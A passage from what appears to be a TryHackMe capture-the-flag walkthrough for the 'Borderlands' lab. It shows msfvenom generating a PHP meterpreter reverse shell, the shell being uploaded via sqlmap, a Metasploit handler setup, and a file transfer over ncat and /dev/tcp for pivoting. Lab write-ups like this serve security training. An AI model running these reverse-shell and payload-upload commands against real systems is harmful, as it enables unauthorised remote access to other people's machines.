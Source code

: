 We are going to generate a reverse shell using msfvenom.

``` {.highlight}
msfvenom -p php/meterpreter/reverse_tcp lhost=<tunnel IP> lport=4445 -f raw
```

![msfvenom](/assets/images/THM/2020-08-13-borderlands/21.png)

Copy the text (pink highlighted) and save it as shell.php. After that,
upload the shell.php using the sqlmap uploader.

![upload it](/assets/images/THM/2020-08-13-borderlands/22.png)

Open up msfconsole and punch the following setting.

``` {.highlight}
msf> use multi/handler
msf exploit(handler) > set lport 4445
msf exploit(handler) > set lhost tun0
msf exploit(handler) > set payload php/meterpreter/reverse_tcp
msf exploit(handler) > exploit
```

Visit the following URL to trigger the reverse shell

``` {.highlight}
http://<Machine IP>/shell.php
```

### Task 1-5: Pivot the machine

There is numerous way to complete this task. User tsuki recommends using
Nmap static binary to do the recon and transfer the file using ncat and
bash shell. (I haven’t test it)

``` {.highlight}
ncat -lvnp 80 < nmap
cat > /tmp/nmap < /dev/tcp/<tunnel IP>/80
```

My approach is a bit dumb but it just works. Basically I compressed the
file and split into 512 Kb size and then upload through the sqlmap
uploader. This is because of the limitation of upload file size by Nginx
server.

``` {.highlight}
split -b 512K nmap.tar.xz
```

After that, we are going to join the split packet in the victim machine.

``` {.highlight}
cat xa* > namp.tar.xz
tar -xvf nmap.tar.xz
```

Before we do a scan, we have to know the private IP address range.

![address range](/assets/images/THM/2020-08-13-borderlands/23.png)
